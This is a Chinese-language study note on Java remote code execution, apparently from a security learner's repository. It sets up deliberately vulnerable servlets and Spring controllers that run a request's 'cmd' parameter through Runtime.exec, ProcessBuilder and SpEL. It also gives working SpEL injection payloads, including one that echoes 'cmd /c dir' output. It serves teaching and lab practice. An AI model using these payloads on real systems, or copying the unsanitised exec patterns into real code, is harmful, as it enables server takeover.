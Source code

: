# RCE-Java

## 1. `exec()` 执行系统命令

1. 涉及函数 `Runtime.getRuntime().exec()`

2. 有漏洞的代码：
    ```java
    package com.endlessshw.controller;
    
    import jakarta.servlet.ServletException;
    import jakarta.servlet.annotation.WebServlet;
    import jakarta.servlet.http.HttpServlet;
    import jakarta.servlet.http.HttpServletRequest;
    import jakarta.servlet.http.HttpServletResponse;
    
    import java.io.BufferedReader;
    import java.io.IOException;
    import java.io.InputStreamReader;
    import java.nio.charset.StandardCharsets;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 使用 Runtime.getRuntime().exec() 来执行系统命令
     * @date 2023/4/4 14:34
     */
    @WebServlet("/exec")
    public class RceExecController extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
            request.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setContentType("text/html; charset=utf-8");
    
            String cmd = request.getParameter("cmd");
            // 给页面回显内容的变量
            StringBuilder stringBuffer = new StringBuilder();
            // 用包装类获取命令执行后的结果流
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream()));
            // 用于记录一行内容的变量
            String lineContext;
            while ((lineContext = bufferedReader.readLine()) != null) {
                stringBuffer.append(lineContext).append("<br />");
            }
            bufferedReader.close();
            response.getWriter().println(stringBuffer);
        }
    }
    ```

3. `Runtime` 类：

    > Every Java application has a single instance of class Runtime that allows the application to interface with the environment in which the application is running. The current runtime can be obtained from the getRuntime method.

4. 该靶场运行结果如下：
    ![image-20230404145024885](RCE-Java/image-20230404145024885.png)

## 2. `ProcessBuilder` 对象通过 `start()` 方法执行系统命令

1. 涉及的类和函数：`ProcessBuilder` 类、`ProcessBuilder` 对象的 `start()` 方法。

2. 实际上，`Runtime.getRuntime().exec()` 的本质上是调用了 `ProcessBuilder` 的 `start()` 方法：
    ![image-20230404145530933](RCE-Java/image-20230404145530933.png)

3. 靶场：

    ```java
    package com.endlessshw.controller;
    
    import jakarta.servlet.ServletException;
    import jakarta.servlet.annotation.WebServlet;
    import jakarta.servlet.http.HttpServlet;
    import jakarta.servlet.http.HttpServletRequest;
    import jakarta.servlet.http.HttpServletResponse;
    
    import java.io.BufferedReader;
    import java.io.IOException;
    import java.io.InputStreamReader;
    import java.nio.charset.StandardCharsets;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 使用 ProcessBuilder.start() 来执行系统命令
     * @date 2023/4/4 14:53
     */
    @WebServlet("/pb")
    public class RcePbController extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
            request.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setContentType("text/html; charset=utf-8");
    
            String cmd = request.getParameter("cmd");
            StringBuilder stringBuilder = new StringBuilder();
    
            String[] cmdWithArgs = {cmd};
            // processBuilder 的实例化需要传入 list 或者 String[]，用来存放一条命令及其参数
            ProcessBuilder processBuilder = new ProcessBuilder(cmdWithArgs);
            // 执行命令
            Process process = processBuilder.start();
            // 获取被包装的 process 执行结果流
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            // 用于记录一行内容的变量
            String lineContext;
            while ((lineContext = bufferedReader.readLine()) != null) {
                stringBuilder.append(lineContext).append("<br />");
            }
            bufferedReader.close();
            response.getWriter().println(stringBuilder);
        }
    }
    ```

4. 结果：
    ![image-20230404150816050](RCE-Java/image-20230404150816050.png)

## 3. 使用 SpEL 表达式

### 3.1 不带回显的情况

1. > Spring 官方为我们提供了一套非常高级 SpEL 表达式，通过使用表达式，我们可以更加灵活地使用 Spring 框架。

2. 使用 SpringBoot 搭建一个简易的靶场：
    ```java
    package com.endlessshw.spelrce.controller;
    
    import org.springframework.expression.Expression;
    import org.springframework.expression.spel.standard.SpelExpressionParser;
    import org.springframework.web.bind.annotation.GetMapping;
    import org.springframework.web.bind.annotation.RequestMapping;
    import org.springframework.web.bind.annotation.RestController;
    
    import java.util.Objects;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: SpEL RCE 靶场
     * @date 2023/4/4 15:15
     */
    @RestController
    @RequestMapping("/rce")
    public class SpEL_RceController {
        @GetMapping("/spel")
        public String SpELRce(String cmd) {
            // 创建一个 Spel 表达式解析器
            SpelExpressionParser spelExpressionParser = new SpelExpressionParser();
            // 根据传入的 cmd 来创建表达式
            Expression expression = spelExpressionParser.parseExpression(cmd);
            return Objects.requireNonNull(expression.getValue()).toString();
        }
    }
    ```

3. payload:
    `http://localhost:8080/rce/spel?cmd=T(java.lang.Runtime).getRuntime().exec(%22control.exe%22)`
    cmd 传入的内容基本上和 Java 语法相似。由于 `Runtime` 是外部类，因此还需要 `T(类的全路径名).方法()` 来执行代码。
4. 结果：
    ![image-20230404153506298](RCE-Java/image-20230404153506298.png)

### 3.2 带回显的情况 -- （少，前提是需要代码将 expression 的结果给 return 出来）

1. 上述靶场中，只使用了最基本的 SpEL 表达式解析器。如果源码中构造了上下文来丰富功能，那么攻击者此时也可以利用上下文“丰富功能”的特性，将结果打印出来。

2. 靶场代码：
    ```java
    @GetMapping("/spelcontext")
    public String SpELRceWithContext(String cmd) {
        // 创建一个 Spel 表达式解析器
        SpelExpressionParser spelExpressionParser = new SpelExpressionParser();
        // 构造上下文，准备表达式需要的上下文数据（用于自定义变量、函数、类型转换器等）
        // Create a new TemplateParserContext with the default "#{" prefix and "}" suffix.
        // 翻译过来就是用 #{} 创建上下文环境，里面的内容就是上下文
        TemplateParserContext templateParserContext = new TemplateParserContext();
        // 根据传入的 cmd 来创建表达式
        Expression expression = spelExpressionParser.parseExpression(cmd, templateParserContext);
        return Objects.requireNonNull(expression.getValue()).toString();
    }
    ```

3. Payload（如果通过 GET 传，要 Url 编码一下）:
    `#{new java.util.Scanner(new java.lang.ProcessBuilder("cmd", "/c", "dir").start().getInputStream(), "GBK").useDelimiter("x").next()};`
4. Payload 解析：
    1. 创建一个 Scanner 类
    2. 用 Scanner 的构造函数：
        ![image-20230404164227873](RCE-Java/image-20230404164227873.png)
    3. 使用 `useDelimiter("")` 方法来划界，然后用 `next()` 方法来返回 `Scanner` 中扫描的字符串。
        这里 `useDelimiter("")` 内的内容尽量复杂，这样它分界就分一个界，然后 `next()` 获取全部内容。
5. 当然，如果出现这种情况，可以先使用 `#{算数表达式}` 来看其是否将表达式的结果返回，从而判断其是否存在 RCE：
    Payload：`#{2+2}`（记得 Url 编码）
    ![image-20230404165810531](RCE-Java/image-20230404165810531.png)

